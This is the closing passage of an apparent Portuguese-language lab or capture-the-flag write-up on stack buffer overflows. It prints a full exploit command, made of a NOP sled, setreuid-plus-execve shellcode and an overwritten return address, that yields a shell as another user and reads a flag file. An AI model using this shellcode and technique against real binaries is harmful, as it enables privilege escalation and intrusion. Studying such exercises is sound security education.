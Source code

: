 <img width="931" height="786" alt="image" src="https://github.com/user-attachments/assets/df775898-6750-4878-9cb8-4aac33e8d4f0" />

O endereço 0x7fffffffe298 (em little-endian: `\x98\xe2\xff\xff\xff\x7f`), que aponta para o NOP sled, foi usado novamente como o endereço de retorno. A execução do binário com este payload final concedeu acesso a uma shell como user3.

`run $ (python -c "print('\x90' * 100 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 9 + '\x98\xe2\xff\xff\xff\x7f')")`

Acessando novamente o arquivo `secret.txt` usando o comando `cat` e estando conectado no user3 temos:

>`wowanothertime!!`

## Conclusão
Estes desafios demonstraram com sucesso a exploração prática de vulnerabilidades de stack-based buffer overflow. Através da análise em GDB, foi possível calcular os offsets corretos para sobrescrever o endereço de retorno (RIP).

A técnica central envolveu a injeção de um shellcode personalizado (para alterar o UID com setreuid e invocar uma shell) e o redirecionamento do fluxo de execução do programa para ele. Os exercícios destacam o perigo crítico de usar funções inseguras como strcpy e strcat sem validação de limites, o que pode levar diretamente à execução de código arbitrário e à escalada de privilégios.








